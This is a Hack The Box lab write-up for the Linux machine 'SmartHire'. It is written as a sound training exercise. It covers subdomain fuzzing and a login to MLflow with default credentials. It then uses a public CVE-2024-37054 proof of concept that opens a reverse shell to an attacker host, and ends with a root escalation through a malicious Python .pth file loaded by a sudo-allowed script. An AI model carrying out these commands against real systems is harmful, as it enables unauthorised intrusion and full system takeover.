


# HTB: SmartHire (Medium)

> **Hack The Box Writeup**
>
> **Machine:** SmartHire  
> **Difficulty:** Medium  
> **Operating System:** Linux  
> **Date Solved:** 2026-06-02 

---

# Executive Summary

| Field                | Value                          |
| -------------------- | ------------------------------ |
| Machine Name         | SmartHire                      |
| OS                   | Linux                          |
| Difficulty           | Medium                         |
| Initial Access       | MLflow RCE                     |
| Vulnerability        | CVE-2024-37054                 |
| User Access          | svcweb                         |
| Privilege Escalation | Python `.pth` Import Hijacking |
| Final Access         | Root                           |

---

# Attack Path

```text
Reconnaissance
    ↓
Web Application Enumeration
    ↓
Subdomain Discovery
    ↓
MLflow Dashboard Discovery
    ↓
Default Credentials (admin:password)
    ↓
MLflow 2.14.1
    ↓
CVE-2024-37054 RCE
    ↓
Reverse Shell as svcweb
    ↓
Sudo Enumeration
    ↓
Writable Plugin Directory
    ↓
Python .pth Import Execution
    ↓
Root Shell
```

---

# 1. Enumeration & Reconnaissance

## Nmap Scan

```bash
sudo nmap -sS -sV -sC -p- -T5 10.129.7.29
```

### Results

```text
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.15
80/tcp open  http    nginx 1.18.0 (Ubuntu)
```

Add the target domain:

```bash
echo "10.129.7.29 smarthire.htb" | sudo tee -a /etc/hosts
```

---

# 2. Web Enumeration

Browse to:

```text
http://smarthire.htb
```

The website provides registration and login functionality.

After registering and logging in, a dashboard is available.



---

# 3. Subdomain Enumeration

Enumerate virtual hosts using ffuf:

```bash
ffuf -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt \
  -u http://smarthire.htb \
  -H "Host: FUZZ.smarthire.htb" \
  -fc 301,302
```

A valid subdomain is discovered:

```text
http://models.smarthire.htb
```

The application prompts for credentials.

Testing default credentials:

```text
admin:password
```

Authentication succeeds.



---

# 4. MLflow Enumeration

The application is identified as:

```text
MLflow 2.14.1
```

Research reveals a Remote Code Execution vulnerability:

```text
CVE-2024-37054
```

---

# 5. Exploiting CVE-2024-37054

Clone the exploit repository:

```bash
git clone https://github.com/jimmexploit/CVE-2024-37054-PoC.git
cd CVE-2024-37054-PoC/
chmod +x shell.py
```

Execute the exploit:

```bash
python3 shell.py --lhost 10.10.15.115 --lport 9001 --atoz
```

The exploit successfully provides a reverse shell.

Current user:

```text
svcweb
```

Retrieve the user flag:

```bash
cat /home/svcweb/user.txt
```

---

# 6. Privilege Escalation Enumeration

Check sudo permissions:

```bash
sudo -l
```

Output:

```text
User svcweb may run the following commands on smarthire:
    (root) NOPASSWD: /usr/bin/python3.10 /opt/tools/mlflow_ctl/mlflowctl.py *
```

Inspect the application:

```bash
cat /opt/tools/mlflow_ctl/mlflowctl.py
```

Interesting section:

```python
BASE_DIR = Path(__file__).resolve().parent
PLUGINS_DIR = BASE_DIR / "plugins"

for path in PLUGINS_DIR.iterdir():
    if path.is_dir():
        site.addsitedir(str(path))
```

The script dynamically loads Python packages from the plugins directory.

---

# 7. Plugin Enumeration

Inspect the plugins directory:

```bash
ls -la /opt/tools/mlflow_ctl/plugins
```

Output:

```text
total 16
drwxr-xr-x 4 root root 4096 Feb 19 18:10 .
drwxr-xr-x 3 root root 4096 Feb 19 18:16 ..
drwxr-xr-x 3 root root 4096 Feb 20 09:26 core
drwxrwxr-x 2 root devs 4096 May 12 15:22 dev
```

The `dev` directory is writable.

---

# 8. Privilege Escalation

Create a malicious `.pth` file:

```bash
echo "import os; os.system('/bin/bash -p')" > /opt/tools/mlflow_ctl/plugins/dev/rootme.pth
```

Execute the privileged Python script:

```bash
sudo /usr/bin/python3.10 /opt/tools/mlflow_ctl/mlflowctl.py status
```

A root shell is spawned.

Verify:

```bash
whoami
```

Output:

```text
root
```

---

# 9. Root Access

Retrieve the root flag:

```bash
cat /root/root.txt
```

---

# Key Findings

| Finding                           | Impact                       |
| --------------------------------- | ---------------------------- |
| Default MLflow credentials        | Administrative access        |
| MLflow 2.14.1                     | Vulnerable to CVE-2024-37054 |
| Remote Code Execution             | Initial foothold             |
| Sudo access to Python application | Privilege escalation path    |
| Writable plugin directory         | Code execution as root       |
| Python `.pth` import execution    | Full system compromise       |

---

# Lessons Learned

* Always enumerate subdomains.
* Default credentials remain a common attack vector.
* Service version disclosure often leads directly to known exploits.
* Writable plugin directories are dangerous when used with privileged Python applications.
* Python `.pth` files can provide powerful privilege escalation opportunities.
* Sudo-accessible applications should be reviewed for unsafe import paths.

---

# Flags

## User Flag

```bash
cat /home/svcweb/user.txt
```

## Root Flag

```bash
cat /root/root.txt
```

---

**Machine:** SmartHire  
**Difficulty:** Medium  
**Status:** Owned  
